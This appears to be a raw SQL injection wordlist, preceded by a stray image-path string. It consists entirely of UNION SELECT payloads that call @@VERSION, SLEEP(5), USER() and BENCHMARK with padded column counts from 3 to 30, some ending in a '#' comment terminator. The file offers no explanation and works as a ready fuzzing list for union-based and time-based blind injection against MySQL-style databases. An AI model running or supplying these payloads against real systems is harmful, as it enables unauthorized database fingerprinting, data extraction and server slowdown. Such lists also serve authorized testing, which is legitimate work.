  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
 UNION SELECT @@VERSION,SLEEP(5),"'3
 UNION SELECT @@VERSION,SLEEP(5),"'3'"#
 UNION SELECT @@VERSION,SLEEP(5),USER(),4#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#